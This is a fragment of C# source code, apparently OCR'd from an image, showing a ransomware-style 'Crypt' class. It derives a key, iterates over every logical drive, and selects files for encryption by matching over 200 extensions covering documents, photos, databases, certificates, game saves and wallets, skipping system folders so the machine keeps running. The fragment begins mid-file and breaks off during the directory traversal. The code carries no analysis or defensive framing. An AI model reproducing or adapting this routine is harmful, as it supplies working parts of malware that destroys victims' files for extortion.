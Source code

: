 ```csharp
}
internal class Crypt
{
	public static void Process(string password)
	{
		password = Utils.CalculateKey();
		string[] logicalDrives = Directory.GetLogicalDrives();
		for (int i = 0; i < logicalDrives.Length; i++)
		{
			EncryptDirectory(logicalDrives[i], password);
		}
	}

	public static void EncryptDirectory(string location, string password)
	{
		try
		{
			string[] source = new string[205]
			{
				".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", "jpeg", ".png",
				".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd",
				".sql", ".mp4", ".7z", ".rar", ".m4a", ".wma", ".avi", ".wmv", ".csv", ".d3dbsp",
				".zip", ".sie", ".sum", ".ibank", ".t13", ".t12", ".qdf", ".gdb", ".tax", ".pkpass",
				".bc6", ".bc7", ".bkp", ".qic", ".bkf", ".sidn", ".sidd", ".mddata", ".itl", ".itdb",
				".icxs", ".hvpl", ".hplg", ".hkdb", ".mdbackup", ".syncdb", ".gho", ".cas", ".svg", ".map",
				".wmo", ".itm", ".sb", ".fos", ".mov", ".vdf", ".ztmp", ".sis", ".sid", ".ncf",
				".menu", ".layout", ".dmp", ".blob", ".esm", ".vcf", ".vtf", ".dazip", ".fpk", ".mlx",
				".kf", ".iwd", ".vpk", ".tor", ".psk", ".rim", ".w3x", ".fsh", ".ntl", ".arch00",
				".lvl", ".snx", ".cfr", ".ff", ".vpp_pc", ".lrf", ".m2", ".mcmeta", ".vfs0", ".mpqge",
				".kdb", ".db0", ".dba", ".rofl", ".hkx", ".bar", ".upk", ".das", ".iwi", ".litemod",
				".asset", ".forge", ".ltx", ".bsa", ".apk", ".re4", ".sav", ".lbf", ".slm", ".bik",
				".epk", ".rgss3a", ".pak", ".big", "wallet", ".wotreplay", ".xxx", ".desc", ".py", ".m3u",
				".flv", ".js", ".css", ".rb", ".p7c", ".pk7", ".p7b", ".p12", ".pfx", ".pem",
				".crt", ".cer", ".der", ".x3f", ".srw", ".pef", ".ptx", ".r3d", ".rw2", ".rwl",
				".raw", ".raf", ".orf", ".nrw", ".mrwref", ".mef", ".erf", ".kdc", ".dcr", ".cr2",
				".crw", ".bay", ".sr2", ".srf", ".arw", ".3fr", ".dng", ".jpe", ".jpg", ".cdr",
				".indd", ".ai", ".eps", ".pdf", ".pdd", ".dbf", ".mdf", ".wb2", ".rtf", ".wpd",
				".dxg", ".xf", ".dwg", ".pst", ".accdb", ".mdb", ".pptm", ".pptx", ".ppt", ".xlk",
				".xlsb", ".xlsm", ".xlsx", ".xls", ".wps", ".docm", ".docx", ".doc", ".odb", ".odc",
				".odm", ".odp", ".ods", ".odt", ".ico"
			};
			string[] files = Directory.GetFiles(location);
			string[] directories = Directory.GetDirectories(location);
			for (int i = 0; i < files.Length; i++)
			{
				string extension = Path.GetExtension(files[i]);
				if (source.Contains(extension))
				{
					EncryptFile(files[i], password);
				}
			}
			for (int j = 0; j < directories.Length; j++)
			{
				if (!directories[j].Contains("Windows") && !directories[j].Contains("Program Files") && !directories[j].Contains("Program Files (x86)"))
```
